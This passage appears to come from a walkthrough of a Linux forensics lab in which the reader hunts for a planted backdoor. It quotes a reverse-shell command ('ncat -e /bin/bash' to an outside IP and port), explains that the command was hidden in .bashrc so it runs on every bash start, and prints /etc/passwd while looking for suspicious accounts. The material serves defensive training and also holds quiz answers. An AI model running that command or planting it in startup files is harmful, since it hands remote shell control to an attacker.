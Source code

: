 What command was displayed?

*ncat -e /bin/bash 172.10.6.9 6969*

You might wonder, "how did that happen? I didn't even do anything? I just logged as root, and it happened."

Can you find out how the suspicious command has been implemented?

This file is essentially a file that executes whenever a user logs on, but more importantly, it executes whenever bash is started.

*.bashrc*


### Investigating the system

After checking the giorgio and the root accounts, it's essentially a free-for-all from here on, as finding more suspicious items depends on how well you know what's "normal" in the system.

Answer the questions below

```
root@giorgio:~# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:0:nobody:/nonexistent:/bin/bash
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
giorgio:x:1000:1000:giorgio:/home/giorgio:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
```
